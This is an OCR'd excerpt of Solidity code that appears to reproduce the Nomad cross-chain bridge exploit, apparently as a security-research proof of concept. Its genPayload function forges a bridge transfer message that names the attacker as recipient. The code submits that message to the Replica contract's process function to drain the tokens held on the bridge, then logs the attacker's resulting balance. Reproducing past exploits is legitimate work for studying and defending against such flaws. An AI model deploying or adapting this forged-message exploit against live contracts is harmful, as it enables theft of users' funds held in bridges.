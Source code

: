 ```solidity
           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
 
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),          // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),      // Recipient of the transfer
           uint256(amount),                  // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```

